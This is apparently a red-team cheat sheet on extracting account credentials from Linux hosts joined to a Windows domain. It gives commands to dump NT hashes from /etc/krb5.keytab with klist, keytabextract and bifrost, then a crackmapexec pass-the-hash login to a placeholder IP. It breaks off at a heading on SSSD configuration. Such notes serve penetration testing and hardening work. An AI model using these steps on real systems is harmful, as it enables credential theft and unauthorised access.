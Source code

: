 # Extract Accounts locations

## From /etc/krb5.keytab

### The service keys used by services that run as root are usually stored in the keytab file /etc/krb5.keytab. This service key is the equivalent of the service's password, and must be kept secure.

### Use klist to read the keytab file and parse its content. The key that you see when the key type is 23 is the actual NT Hash of the user.

    klist.exe -t -K -e -k FILE:C:\Users\User\downloads\krb5.keytab (Windows)

### On Linux you can use KeyTabExtract : we want RC4 HMAC hash to reuse the NTLM hash.

    python3 keytabextract.py krb5.keytab

### On macOS you can use bifrost

    ./bifrost -action dump -source keytab -path test

### Connect to the machine using the account and the hash with CME

    crackmapexec 10.XXX.XXX.XXX -u 'COMPUTER$' -H "31d6cfe0d16ae931b73c59d7e0c089c0"

## From 

    /etc/sssd/sssd.conf

### sss_obfuscate converts a given password into human-unreadable format and places it into appropriate domain section of the SSSD config file, usually located at /etc/sssd/sssd.conf

